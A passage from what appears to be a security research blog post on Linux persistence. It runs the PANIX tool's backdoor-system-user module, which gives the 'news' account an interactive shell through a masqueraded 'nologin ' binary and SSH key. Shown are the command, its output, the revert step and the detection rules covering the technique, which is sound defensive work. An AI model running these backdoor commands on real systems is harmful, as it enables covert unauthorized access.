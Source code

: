 This step ensures SSH does not reject login attempts due to the manipulated shell. Now that we understand the flow, let’s run the module. 

```bash
> sudo ./panix.sh --backdoor-system-user --default --key <ssh-rsa public key>

[+] Added 'nologin ' to /etc/shells
[+] Copied /bin/dash to '/usr/sbin/nologin '
[+] Modified /etc/passwd to update shell path for user: news
[+] System user backdoor persistence established for user: news
```

After which we can log in to the system via SSH with the `news` user:

```bash
> ssh news@192.168.31.129
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-130-generic x86_64)
```

And analyze this technique’s traces in Discover:

![PANIX backdoor-system-user module execution visualized in Kibana]( /assets/images/continuation-on-persistence-mechanisms/image1.png "PANIX backdoor-system-user module execution visualized in Kibana")

Upon PANIX execution, the `/var/spool/news/.ssh/` directory and `authorized_keys` files are created and granted the correct permissions (`755` and `644` respectively). Next, the `/usr/sbin/nologin`  (with trailing space) file is created, and the `/etc/passwd` and `/etc/shells` files are modified. Upon completion, the `news` user is able to authenticate via SSH, with an interactive shell.

You can revert the changes made by PANIX by running the following revert command:

```bash
> sudo ./panix.sh --revert backdoor-system-user

###### [+] Reverting backdoor-system-user module... #####

[+] Removing .ssh directory for user: news
[+] Successfully removed .ssh directory for news.
[+] Reverting /etc/passwd entry for user: news
[+] Successfully reverted /etc/passwd entry for news.

[+] Removing '/usr/sbin/nologin '
[+] Successfully removed '/usr/sbin/nologin '.
[+] Reverting /etc/shells to remove 'nologin ' entry.
[+] Successfully removed 'nologin ' from /etc/shells.
```

After which all artifacts should be cleaned.

There are several detection- and endpoint rules set up to detect different parts of this technique:

| Category | Coverage                                            |
|----------|-----------------------------------------------------|
| IAM      | [Login via Unusual System User](https://github.com/elastic/detection-rules/blob/ac541f0b18697e053b3b56544052955d29b440c0/rules/linux/persistence_ssh_via_backdoored_system_user.toml)                       |
| Process  | [Unusual Interactive Shell Launched from System User](https://github.com/elastic/detection-rules/blob/ac541f0b18697e053b3b56544052955d29b440c0/rules/linux/defense_evasion_interactive_shell_from_system_user.toml) |
|          | [Potential Nologin SSH Backdoor](https://github.com/elastic/protections-artifacts/blob/195c9611ddb90db599d7ffc1a9b0e8c45688007d/behavior/rules/linux/defense_evasion_potential_nologin_ssh_backdoor.toml)                      |
|          | [Masquerading Space After Filename](https://github.com/elastic/detection-rules/blob/ac541f0b18697e053b3b56544052955d29b440c0/rules/cross-platform/defense_evasion_masquerading_space_after_filename.toml)                   |
*Detection and endpoint rules that cover backdoored system user persistence*
